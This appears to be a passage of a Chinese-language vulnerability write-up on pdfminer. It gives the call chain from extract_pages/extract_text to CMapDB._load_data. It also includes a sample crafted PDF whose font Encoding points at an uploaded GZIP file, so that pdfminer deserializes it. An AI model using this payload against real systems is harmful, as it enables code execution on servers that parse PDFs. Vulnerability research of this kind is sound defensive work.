 ```
                    "and proceeding. Use the check_extractable "
                    "if you want to raise an error in this case" % fp
                )
                log.warning(warning_msg)
        for pageno, page in enumerate(cls.create_pages(doc)):
            if pagenos and (pageno not in pagenos):
                continue
            yield page
            if maxpages and maxpages <= pageno + 1:
                break
```
### 利用链
```
high_level.py::extract_pages()/extract_text()
	pdfinterp.py::PDFPageInterpreter.process_page(page)
		pdfinterp.py::PDFPageInterpreter.render_contents(resources, contents)
			pdfinterp.py::PDFPageInterpreter.init_resources(resources)
				pdfinterp.py::PDFResourceManager.get_font(objid, spec)
					pdffont.py::PDFCIDFont.__init__(rsrcmgr, spec, strict)
						pdffont.py::PDFCIDFont.get_cmap_from_spec(spec, strict)
							cmapdb.py::CMapDB.get_cmap(cmap_name)
								cmapdb.py::CMapDB._load_data(name)
```
将 PDF Font 对象关键字段定义好，Type = Type0、Subtype = CIDFontType0 or CIDFontType2、Encoding = GZIP 文件绝对路径，同时绝对路径中 `/`需要替换为 `#2F`，并使用 extract_pages()/extract_text() 操作 PDF 文件，Pdfminer 就会读取 GZIP 内容并反序列化
PDF 格式体利用示例
```
%PDF-1.4
%E2%E3%CF%D3
1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj

2 0 obj
<< /Type /Pages /Count 1 /Kids [3 0 R] >>
endobj

3 0 obj
<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Resources << /Font << /F1 5 0 R >> >> /Contents 4 0 R >>
endobj

4 0 obj
<< /Length 22 >>
stream
BT /F1 12 Tf (A) Tj ET
endstream
endobj

5 0 obj
<< /Type /Font /Subtype /Type0 /BaseFont /Identity-H /Encoding /app/uploads/l1 /DescendantFonts [6 0 R] >>
endobj

6 0 obj
<< /Type /Font /Subtype /CIDFontType2 /BaseFont /Dummy /CIDSystemInfo << /Registry (Adobe) /Ordering (Identity) /Supplement 0 >> >>
endobj

xref
0 7
0000000000 65535 f 
0000000010 00000 n 
```